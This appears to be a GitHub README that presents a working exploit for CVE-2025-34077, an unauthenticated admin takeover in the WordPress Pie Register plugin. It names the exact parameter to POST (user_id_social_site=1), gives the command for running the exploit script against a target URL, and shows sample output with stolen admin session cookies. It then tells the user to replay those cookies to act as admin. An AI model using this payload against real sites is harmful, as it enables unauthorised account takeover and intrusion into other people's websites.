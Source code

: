 # CVE-2025-34077 — WordPress Pie Register ≤ 3.7.1.4 - Admin Privilege Escalation (Unauthenticated)

![Exploit Status](https://img.shields.io/badge/exploit-working-brightgreen)
![CVE Badge](https://img.shields.io/badge/CVE-2025--34077-red)
![Python](https://img.shields.io/badge/language-python-blue)

## 💀 Author
**Mrj Haxcore** 

## 🧠 Vulnerability Summary

The `Pie Register` plugin for WordPress (version ≤ 3.7.1.4) exposes an unauthenticated endpoint that allows an attacker to **hijack admin sessions** simply by POSTing a specific payload.

Exploitation results in **stealing the session cookies of user ID 1** (usually `admin`) without needing any login credentials.

---

## 📦 Affected Software

- Plugin Name: **Pie Register**
- Version: **<= 3.7.1.4**
- Plugin Slug: `pie-register`
- [Plugin Page](https://wordpress.org/plugins/pie-register/)
- [Vulnerable Download Link](https://downloads.wordpress.org/plugin/pie-register.3.7.1.0.zip)

---

### 📬 Vulnerable Parameter:

user_id_social_site=1
When posted to the root URL (`/`), this parameter causes the plugin to authenticate the attacker as the user with ID `1` (typically the `admin`), and issue valid session cookies.

---

### 🔧 Requirements
- Python 3.x
- `requests`, `beautifulsoup4` (optional, for cookie parsing)

### ▶️ Run the Exploit

```bash
python3 pie.py http://target.site

---
Output
[*] Sending payload to hijack admin session...

[+] Successfully hijacked cookies for user_id=1 (admin):
    wordpress_sec_xxxxxx = <cookie_value>
    wordpress_logged_in_xxxxxx = <cookie_value>

[!] Use these cookies in your browser or tools like curl or Burp to act as admin.
